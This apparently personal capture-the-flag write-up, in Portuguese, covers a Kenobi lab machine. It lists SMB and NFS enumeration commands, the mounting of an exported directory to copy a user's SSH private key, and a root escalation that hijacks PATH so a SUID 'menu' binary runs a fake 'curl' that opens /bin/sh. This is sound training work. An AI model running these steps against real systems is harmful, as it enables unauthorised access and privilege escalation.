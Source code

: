 Samba é baseado em SMB.

podemos nos conectar ao share com:
``smbclient //10.10.244.78/anonymous``

baixamos o log.txt com:
``get log.txt``

dentro dele temos uma key ssh e algumas outras informações

usando o npma para enumerar a porta 111 que é um network file system
``nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.244.78``
podemos ver uma pasta ``/var`` com arquivos

``searchsploit proftpd 1.3.5``
usamos o searchsploit para saber quais exploits podem ser usados nessa versão

vamos dar mount no ``/var/tmp``

```
mkdir /mnt/kenobiNFS  
mount 10.10.244.78:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

Dar **MOUNT** em um diretório significa montar um sistema de arquivos ou um dispositivo de armazenamento nesse diretório, tornando-o acessível no sistema operacional. Isso é comum em sistemas baseados em Unix/Linux.

Ao fazer isso tornamos a pasta disponivel no servidor nfs disponível dentro da nossa máquina

depois disso foi só copiar a chave rsa do kenobi e logar na conta dele
```
cp /mnt/kenobiNFS/tmp/id_rsa .
sudo chmod 600 id_rsa # isso aqui serve para dar as permissões corretas pro arquivo para evitar que o ssh não funcione
ssh -i id_rsa kenobi@10.10.244.78
```

Temos acesso agora à conta do kenobi, basta pegar a flag com o cat

usamos ``find / -perm -u=s -type f 2>/dev/null`` para encontrar os arquivos com permissão SUID
achamos um particularmente estranho ``/usr/bin/menu`` ao executar aparece um menu com 3 opções que executam os seguintes comandos:
```
curl -I localhost
uname -r
ifconfig
```

o comando ``strings menu`` mostra que esses 3 comandos não foram configurados com o path absoluto, então podemos mudar o path para que façam o que a gente quiser

utilizando:
```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
```
Criamos um comando ``curl`` falso que na verdade abre uma shell. Ao exportar o path o menu abrirá o nosso comando e não o ``curl`` já configurado. Como ``menu`` roda como super usuário, essa shell será de ``root``.

Agora basta pegar a flag com o ``cat``.